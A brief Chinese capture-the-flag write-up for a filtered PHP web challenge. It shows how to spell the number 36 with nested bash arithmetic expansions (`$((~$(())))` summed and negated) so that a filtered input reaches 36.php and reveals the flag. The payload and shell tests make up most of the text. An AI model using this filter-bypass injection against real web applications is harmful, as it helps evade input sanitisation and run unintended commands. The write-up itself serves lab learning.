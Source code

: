 ![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208091101848.png)

提示 flag 在 36.php 中

发现 `$` 没被过滤, 当时想的是类似 `$$` `$@` `$!` 的指令, 然后 `++` `--` 这样子, 本地测试发现都不好构造36

hint 如下

```bash
$((~$(($((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))))))
${_} ="" //返回上一次命令
$((${_}))=0
$((~$((${_}))))=-1
```

双小括号的介绍 [http://c.biancheng.net/view/2480.html](http://c.biancheng.net/view/2480.html)

```bash
exp10it@LAPTOP-TBAF1QQG:~$ echo $(())
0
exp10it@LAPTOP-TBAF1QQG:~$ echo $((~$(())))
-1
exp10it@LAPTOP-TBAF1QQG:~$ echo $(($((~$(()))) $((~$(())))))
-2
exp10it@LAPTOP-TBAF1QQG:~$ echo $((-1 -1))
-2
exp10it@LAPTOP-TBAF1QQG:~$ echo $((-1 1))
-bash: -1 1: syntax error in expression (error token is "1")
exp10it@LAPTOP-TBAF1QQG:~$ echo $((1 1))
-bash: 1 1: syntax error in expression (error token is "1")
```

`$(())` 的默认值是0 ,因为里面没有任何东西, 对0取反得到-1, 取反的结果需要用另一对`$(())` 包裹住

这里的-1有点特殊, 因为类似 `$((1 1))` 的命令是错误的 (没有运算符号), 而两个-1并在一起 `$((-1 -1))` 会让 shell 认为是 `$((-1-1))` 即-1减去1, 然后得到-2

```bash
exp10it@LAPTOP-TBAF1QQG:~$ echo $((~36))
-37
```

36的取反结果是-37, 就是说我们需要通过-1来构造出-37, 然后再取反一次

```bash
$((~$(($((~$(()))) $((~$(()))) $((~$(()))) $((~$(()))) $((~$(()))) $((~$(()))) $((~$(()))) $((~$(()))) $((~$(()))) $((~$(()))) $((~$(()))) $((~$(()))) $((~$(()))) $((~$(()))) $((~$(()))) $((~$(()))) $((~$(()))) $((~$(()))) $((~$(()))) $((~$(()))) $((~$(()))) $((~$(()))) $((~$(()))) $((~$(()))) $((~$(()))) $((~$(()))) $((~$(()))) $((~$(()))) $((~$(()))) $((~$(()))) $((~$(()))) $((~$(()))) $((~$(()))) $((~$(()))) $((~$(()))) $((~$(()))) $((~$(())))))))
```

访问得到 flag
